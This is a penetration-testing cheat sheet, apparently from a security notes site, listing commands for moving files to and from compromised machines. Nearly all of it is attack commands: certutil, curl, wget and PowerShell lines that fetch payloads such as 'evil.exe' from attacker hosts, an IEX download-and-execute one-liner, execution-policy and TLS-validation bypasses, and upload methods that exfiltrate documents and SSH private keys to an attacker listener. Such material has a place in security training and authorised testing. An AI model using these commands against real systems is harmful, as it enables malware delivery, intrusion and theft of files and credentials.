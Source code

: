 ```yaml
---
title: File Transfer
parent: General Usage
layout: default
nav_order: 17
---
```


## Download
1. Certutil:\
   `certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`
2. Wget with directory set:\
   `wget -P /tmp http://IP/file`
3. Curl:\
   `curl http://attacker:3333/file -o /tmp/file`
4. Python server on attacker machine:\
   `python3 -m http.server 8000`
5. Powershell on target (single line):\
   `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://IP/evil.exe', 'shell1.exe')`
6. Powershell on target (line by line):\
   `echo $webclient = New-Object System.Net.WebClient >>wget.ps1`\
   `echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1`\
   `echo $file = "new-exploit.exe" >>wget.ps1`\
   `echo $webclient.DownloadFile($url,$file) >>wget.ps1`\
   `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
7. Powershell (execute directly without download):\
   `powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`
8. UPX and Powershell (reconstruct instead of download):\
   attacker: `upx -9 evil.exe`\
   attacker: `exe2hex -x evil.exe -p evil.cmd`\
   attacker: `cat evil.cmd`\
   victim: copy the powershell command near the end of evil.cmd will recreate the evil.exe
9. TFTP (Windows XP/2003 and earlier default).\
   Kali: `atftpd --daemon --port 69 /tmp/tftp`, then `/etc/init.d/atftpd restart`\
   Victim: `tftp -i kaliIP GET/PUT file`
10. (Windows)Powershell to download:\
    `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`\
    If got SSL/TLS issue, use:\
    `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

## Upload
1. Start Apache server (`sudo service apache2 start`), and then use `powershell (New-Object System.Net.WebClient).UploadFile('http://IP/upload321.php', 'important.docx')` to upload.
2. `scp -P port user@SRC_HOST:file1 user@DEST_HOST:file2`\
   (if copy to localhost no need put localhost, just use full path like /home/xxx/yyy)
3. (Windows)Do an upload server in Kali:\
   `pip3 install uploadserver`\
   Serve it on Kali:\
   `python3 -m uploadserver`\
   On target machine:\
   `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`\
   `Invoke-FileUpload -Uri http://KALIIP:8000/upload -File C:\testfile`
4. (Windows)Use nc to listen to the incoming request on Kali:\
   `nc -lvnp 8000`\
   Send these powershell on target:\
   `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\testfile' -Encoding Byte))`
   `Invoke-WebRequest -Uri http://KALIIP:8000/ -Method POST -Body $b64`
5. (Linux)Get the base64 content on target:\
   `cat id_rsa |base64 -w 0;echo`\
   Decode it on our Kali:\
   `echo -n 'LS0t...' | base64 -d > id_rsa`
6. (Linux)Use uploadserver:\
   `pip3 install uploadserver`\
   Create certificate:\
   `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
   Create a new folder for the certificate:\
   `mkdir https`\
   Use the certificate to start uploadserver:\
   `sudo python3 -m uploadserver 443 --server-certificate ~/https/server.pem`\
   From our target:\
   `curl -X POST https://KALIIP/upload -F 'files=@/home/testfile1' -F 'files=@/etc/testfile2' --insecure`
